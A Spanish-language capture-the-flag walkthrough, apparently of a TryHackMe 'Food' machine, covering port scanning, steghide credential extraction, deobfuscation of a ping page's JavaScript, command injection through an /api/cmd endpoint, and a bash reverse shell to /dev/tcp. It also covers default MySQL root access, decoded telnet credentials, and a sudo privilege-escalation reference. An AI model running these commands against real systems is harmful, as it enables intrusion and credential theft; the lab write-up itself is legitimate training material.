 # Food
## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 28:0c:0c:d9:5a:7d:be:e6:f4:3c:ed:10:51:49:4d:19 (RSA)
|   256 17:ce:03:3b:bb:20:78:09:ab:76:c0:6d:8d:c4:df:51 (ECDSA)
|_  256 07:8a:50:b5:5b:4a:a7:6c:c8:b3:a1:ca:77:b9:0d:07 (ED25519)
3306/tcp  open  mysql   MySQL 5.7.29-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
|   Thread ID: 4
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, SupportsLoadDataLocal, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, ConnectWithDatabase, IgnoreSigpipes, LongPassword, SupportsTransactions, SupportsCompression, Speaks41ProtocolNew, InteractiveClient, IgnoreSpaceBeforeParenthesis, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: VE!Jms{&C\x1EZaZ\x0F[]IGW\x05
|_  Auth Plugin Name: mysql_native_password
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Fri, 14 Aug 2020 10:23:22 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|     king
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Fri, 14 Aug 2020 10:23:21 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|_    king
15065/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Host monitoring
16109/tcp open  unknown
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Fri, 14 Aug 2020 10:23:22 GMT
|     Content-Type: image/jpeg
|     JFIF
|     #*%%*525EE\xff
|     #*%%*525EE\xff
|     $3br
|     %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|     Y$?_
|     qR]$Oyk
|_    |$o.
46969/tcp open  telnet  Linux telnetd
```
## Enum
## Puerto 16109 
Aquí simplemente hay una foto, pero estos array me llevan a pensar que se ha usado steghide 
```
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
```
Vamos a extraer
```
steghide extract -sf photo.jpeg
Anotar salvoconducto: 
anota los datos extraidos em/"creds.txt".
```
Veamos esas creds 
```
pasta:pastaisdynamic
```
## Puerto 15065
```
/monitor (Status: 301)
```
Es un servicio de ping, probamos las fomas basicas de conseguir un RCE pero nada, veamos si podemos ver de algún modo que sucede detras a ver si encontramos alguna forma de bypassearlo, vemos un ain js con codigo ofuscado

```javascript
//Steve said I should obfuscate my code to make it better. I don't really understand but it works so meh
const _0x1a9d=['dmFsdWU=','I2hvc3RUb1Bpbmc=','dGVzdA==','SVAgYWRkcmVzcyBpbnZhbGlk','cXVlcnlTZWxlY3Rvcg==','UGluZ2luZzog','dGV4dENvbnRlbnQ='];(function(_0x365cb9,_0x1a9de5){const _0x4d6713=function(_0x1784af){while(--_0x1784af){_0x365cb9['push'](_0x365cb9['shift']());}};_0x4d6713(++_0x1a9de5);}(_0x1a9d,0x148));const _0x4d67=function(_0x365cb9,_0x1a9de5){_0x365cb9=_0x365cb9-0x0;let _0x4d6713=_0x1a9d[_0x365cb9];if(_0x4d67['NLdOOO']===undefined){(function(){let _0x525fb1;try{const _0x3f1d56=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');_0x525fb1=_0x3f1d56();}catch(_0xc71f1){_0x525fb1=window;}const _0x4685a7='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';_0x525fb1['atob']||(_0x525fb1['atob']=function(_0x255321){const _0x24c30f=String(_0x255321)['replace'](/=+$/,'');let _0x5e1a31='';for(let _0x4d6263=0x0,_0x55cd30,_0x4f9f3e,_0x1e913f=0x0;_0x4f9f3e=_0x24c30f['charAt'](_0x1e913f++);~_0x4f9f3e&&(_0x55cd30=_0x4d6263%0x4?_0x55cd30*0x40+_0x4f9f3e:_0x4f9f3e,_0x4d6263++%0x4)?_0x5e1a31+=String['fromCharCode'](0xff&_0x55cd30>>(-0x2*_0x4d6263&0x6)):0x0){_0x4f9f3e=_0x4685a7['indexOf'](_0x4f9f3e);}return _0x5e1a31;});}());_0x4d67['LCDJpm']=function(_0x16dbab){const _0x48165c=atob(_0x16dbab);let _0x25c165=[];for(let _0x2e78af=0x0,_0x1185f3=_0x48165c['length'];_0x2e78af<_0x1185f3;_0x2e78af++){_0x25c165+='%'+('00'+_0x48165c['charCodeAt'](_0x2e78af)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0x25c165);};_0x4d67['znaolL']={};_0x4d67['NLdOOO']=!![];}const _0x1784af=_0x4d67['znaolL'][_0x365cb9];if(_0x1784af===undefined){_0x4d6713=_0x4d67['LCDJpm'](_0x4d6713);_0x4d67['znaolL'][_0x365cb9]=_0x4d6713;}else{_0x4d6713=_0x1784af;}return _0x4d6713;};async function pingHost(){const _0x25c165=document[_0x4d67('0x5')]('#outputSection');const _0x2e78af=document[_0x4d67('0x5')](_0x4d67('0x2'));const _0x1185f3=_0x2e78af[_0x4d67('0x1')];if(_0x1185f3!==undefined&&_0x1185f3!==''&&ValidateIPaddress(_0x1185f3)){_0x25c165[_0x4d67('0x0')]=_0x4d67('0x6')+_0x1185f3+'\x0a';const _0x27c227=await postData('/api/cmd','ping\x20-c\x204\x20'+_0x1185f3);_0x25c165['textContent']+=await _0x27c227['text']();}else{_0x25c165[_0x4d67('0x0')]=_0x4d67('0x4');}}function ValidateIPaddress(_0x23b8a0){if(/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/[_0x4d67('0x3')](_0x23b8a0)){return!![];}return![];}
```
Toca desofuscar
```
async function pingHost() {
    const _0x25c165 = document[_0x4d67('0x5')]('#outputSection');
    const _0x2e78af = document[_0x4d67('0x5')](_0x4d67('0x2'));
    const _0x1185f3 = _0x2e78af[_0x4d67('0x1')];
    if (_0x1185f3 !== undefined && _0x1185f3 !== '' && ValidateIPaddress(_0x1185f3)) {
        _0x25c165[_0x4d67('0x0')] = _0x4d67('0x6') + _0x1185f3 + '\x0a';
        const _0x27c227 = await postData('/api/cmd', 'ping -c 4 ' + _0x1185f3);
        _0x25c165['textContent'] += await _0x27c227['text']();
    } else {
        _0x25c165[_0x4d67('0x0')] = _0x4d67('0x4');
    }
}
```
Esta función me permite hacer realmente un bypass pasando de el filtrado de la web y tirando directamente de la api

```
curl -X POST http://IP:15065/api/cmd --data "comando"
```
Ya tenemos nuestro RCE pasemos a una rev shell
```
curl -X POST http://10.10.222.16:15065/api/cmd --data "bash -i >& /dev/tcp/IP/4444 0>&1"
```
Ya tendriamos una shell como bread 

### MySql
Probamos el login por defecto
```
mysql -h IP -u root -p
> root
```
Y estamos dentro
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
mysql> use users;
mysql
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
+----------+---------------------------------------+
```
### Port 46969
Si nos conectamos usando telnet obtenemos el siguiente string
```
tccr:uwjsasqccywsg
```
Parecen creds encodeadas
```
Aplicamos rot 12 y: 
```
food:givemecookies
```
Mas creds, si nos logeamos tenemos un acc con el $PATH en blanco , lo restauramos y tenemos sesión como food
## Privesc
### Opcion 1 Pwfeedback
Como no tenemos soccat no nos vale el de exploit db pero tenemos la version sin soccat
```
https://github.com/saleemrashid/sudo-cve-2019-18634
```
### Opcion 2 Screen 4.5.0

### Opcion 3 Vim backdoor


## Flag Hunting
### Flag 1
Nos logeamos como pasta y ejecutamos lo siguiente
```
cat /home/food/.flag
```
Desde la API:
```
curl -X POST http://IP:15065/api/cmd --data "cat /home/food/.flag"
```
### Flag 2
Nos logeamos como pasta y ejecutamos lo siguiente
```
cat /var/flag.txt
```
O bien desde la API
```
curl -X POST http://IP:15065/api/cmd --data "cat /var/flag.txt"
```
### Flag 3
Cuando entramos en mysql en la tabla de usuarios

### Flag 4
Una vez somos root
```
cat /root/flag
```
### Flag 5
Siendo root podemos leerla sin problema:
```
/home/bread/flag
```
### Flag 6
Siendo root:
```
/home/tryhackme/flag7
```
### Flag 7

### Flag 8
